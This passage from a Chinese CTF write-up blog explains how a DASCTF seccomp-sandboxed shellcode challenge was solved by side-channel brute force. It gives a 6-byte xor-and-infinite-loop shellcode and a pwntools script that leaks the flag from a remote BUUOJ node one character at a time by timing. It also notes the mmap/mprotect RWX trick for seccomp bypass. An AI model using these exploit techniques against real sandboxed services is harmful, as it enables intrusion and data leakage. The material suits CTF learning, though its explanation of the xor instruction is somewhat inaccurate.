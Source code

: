 其中，构造RWX内存段可使用mmap申请新的内存，或使用mprotect使已有的段变为RWX权限。

以上资料参考自：https://zqy.ink/2022/11/06/SeccompBypass/

其他的一些特殊shellcode：https://zqy.ink/2022/11/27/shellcodes/

三\*侧信道PWN*

dasctf的题，唯一看懂代码逻辑的题没有任何思路，还好纯真学长做出来了这题，哦！原来是侧信道爆破。这是第一次做侧信道的题

题目代码如下：

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-25.png)

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-26-1024x484.png)

先看代码，题目把flag读入内存，接着读入6字节的内容存入buf准备执行，显然是道shellcode题目，看到有沙箱那么用seccomp-tools分析一下

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-27.png)

先分析一下汇编代码：

```
from pwn import *
context(os = 'linux',arch = 'amd64')
payload = '''
   xor byte ptr [rdi+1],2
   jz $
'''
print(asm(payload))
###输出为b'\x80w\x01\x02t\xfe'
```

***xor byte ptr [rdi+1],2\*** 的意思是比较rdi指向的地址+1位置和2是否相同

***jz $\*** 的意思是如果上一个指令结果为0则跳转回当前地址，如果结果为1则继续执行

接下来看输出**b’\x80w\x01\x02t\xfe’**，其中01是遍历爆破flag用的idx，而02是与flag比较的字符集

所以就能有代码：

```
from pwn import *
context.log_level = 'fatal'
#仅在致命错误时才会输出日志。
def get_p():
    return connect('node5.buuoj.cn',25871)
flag = b''
idx = 0
guess = string.printable #比较的字符集
while True:
    for i in guess:
        try:
            p = get_p()
            payload = b'\x80\x77'+p8(idx)+p8(ord(i))+b'\x74\xfe'
            p.send(payload)
            p.recv(timeout=4) 
#如果四秒没收到任何信息，说明程序被“困”在循环里了
            flag+=i.encode()
            idx += 1
            print(flag)
            break
        except EOFError:
#如果报错，说明比较错误，那么继续比较
            p.close()
            continue
```

